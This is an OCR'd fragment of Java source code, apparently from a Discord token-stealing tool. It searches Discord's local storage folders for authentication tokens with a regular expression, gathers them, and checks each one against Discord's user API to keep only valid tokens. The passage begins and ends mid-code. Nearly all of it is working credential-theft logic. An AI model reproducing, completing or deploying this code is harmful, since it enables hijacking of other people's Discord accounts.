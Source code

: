                 {"Discord", System.getProperty("user.home") + "/Library/Application Support/discord/Local Storage/leveldb"} //Discord MacOS
        };

        for (String[] path : paths) {
            try {
                File file = new File(path[1]);

                for (String pathname : file.list()) {
                    if (debug) {
                        print("Searching: " + path[1] +System.getProperty("file.separator")+ pathname);
                    }
                    FileInputStream fstream = new FileInputStream(path[1] + System.getProperty("file.separator") + pathname);
                    DataInputStream in = new DataInputStream(fstream);
                    BufferedReader br = new BufferedReader(new InputStreamReader(in));
                    String strLine;
                    while ((strLine = br.readLine()) != null) {
                        Pattern p = Pattern.compile("[\\w]{24}\\.[\\w]{6}\\.[\\w]{27}");
                        Matcher m = p.matcher(strLine);

                        while (m.find()) {
                            if (debug) {
                                print("Found token: " + m.group() + " in " + pathname);
                                print("isDuplicate: " + tokens.contains(m.group()));
                            }
                            if (!tokens.contains(m.group())) {
                                tokens.add(m.group());
                            }
                        }
                    }
                }
            } catch (Exception ignored) {
            }
        }

        if (check_isValid) {
            if (debug) {
                print("checking if valid");
                print(tokens.toString());
            }
            if (!tokens.isEmpty()) {
                Iterator<String> iter = tokens.iterator();

                while (iter.hasNext()) {
                    String str = iter.next();
                    try {
                        get_request("https://discordapp.com/api/v6/users/@me", true, str);
                        if (debug) {
                            print("Token: " + str + " is valid");
                        }

                    } catch (IOException e) {
                        if (debug) {
                            print("Removing token " + str + "            " + e.getMessage());
                        }
                        iter.remove();
                    }
                }
